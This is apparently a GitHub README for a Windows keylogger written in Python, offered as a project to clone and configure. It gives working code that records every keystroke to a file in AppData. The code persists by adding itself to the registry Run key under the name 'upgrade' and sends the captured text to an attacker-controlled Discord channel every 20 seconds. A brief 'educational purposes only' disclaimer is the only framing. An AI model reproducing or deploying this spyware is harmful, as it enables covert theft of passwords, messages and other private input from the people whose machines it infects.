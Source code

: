 # Keylogger with Discord Integration

This project is a keylogger that captures keystrokes and sends them to a Discord channel using a bot. The keylogger is designed to run on Windows and can be added to the system's startup programs.

## Features

- Captures all keystrokes and saves them to a local file.
- Sends the captured keystrokes to a specified Discord channel.
- Adds itself to the Windows startup programs to run automatically.

## Requirements

- Python 3.6 or higher
- `pynput` library for capturing keystrokes
- `discord.py` library for Discord bot integration

## Setup

1. **Clone the repository:**

    ```sh
    git clone https://github.com/yourusername/keylogger-discord.git
    cd keylogger-discord
    ```

2. **Install the required libraries:**

    ```sh
    pip install pynput discord.py
    ```

3. **Configure the Discord bot:**

    - Create a new bot on the [Discord Developer Portal](https://discord.com/developers/applications).
    - Copy the bot token and replace it in the `start_bot` function:

      ```python
      await bot.start("YOUR_BOT_TOKEN")
      ```

    - Get the channel ID where you want to send the messages and replace it in the `send_incoming_message` function:

      ```python
      channel_id = YOUR_CHANNEL_ID
      ```

## How It Works

1. **Adding to Startup:**

    The `add_to_registr` function copies the executable to the AppData directory and adds it to the Windows registry to ensure it runs at startup.

    ```python
    def add_to_registr():
        new_file = os.environ["appdata"] + "\\keylogger.exe"
        new_text = os.environ["appdata"] + "\\keylogger.txt"
        if not os.path.exists(new_file):
            shutil.copyfile(sys.executable, new_file)
            shutil.copyfile(sys.executable, new_text)
            regedit_command = "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v upgrade /t REG_SZ /d " + new_file
            subprocess.call(regedit_command, shell=True)
    ```

2. **Keylogger Functionality:**

    The `callback_func` function captures keystrokes and writes them to a local file. It stops capturing if the `esc` key is pressed.

    ```python
    def callback_func(key):
        global text, stop_flag

        if key == keyboard.Key.esc:
            stop_flag = True
            return False
        else:
            try:
                if hasattr(key, 'char') and key.char is not None:
                    text += key.char
                elif key == keyboard.Key.space:
                    text += ' '
                elif key == keyboard.Key.enter:
                    text += '\n'
                elif key == keyboard.Key.backspace:
                    text = text[:-1]
            except AttributeError:
                pass

            with open(os.environ["appdata"] + "\\keylogger.txt", "w", encoding="utf-8") as file:
                file.write(text)
    ```

3. **Sending Messages to Discord:**

    The `send_messages` function reads the captured keystrokes from the file and sends them to the specified Discord channel every 20 seconds.

    ```python
    async def send_messages():
        global text, stop_flag
        while not stop_flag:
            with open(os.environ["appdata"] + "\\keylogger.txt", "r", encoding="utf-8") as file:
                icerik = file.read()
            if icerik.strip():
                print(icerik)
                await send_incoming_message(icerik)
                with open(os.environ["appdata"] + "\\keylogger.txt", "w", encoding="utf-8") as file:
                    file.write("")
                text = ""
            await asyncio.sleep(20)
    ```

4. **Starting the Listener and Bot:**

    The `start_listener` function starts a new thread to capture keystrokes, and the `main` function runs the Discord bot and message sending tasks concurrently.

    ```python
    def start_listener():
        with keyboard.Listener(on_press=callback_func) as listener:
            listener.join()

    listener_thread = threading.Thread(target=start_listener)
    listener_thread.start()

    async def main():
        bot_task = asyncio.create_task(start_bot())
        message_task = asyncio.create_task(send_messages())
        await bot_task
        await message_task

    asyncio.run(main())
    ```

## Disclaimer

This project is for educational purposes only. Unauthorized use of this keylogger is illegal and unethical. The author is not responsible for any misuse of this software.


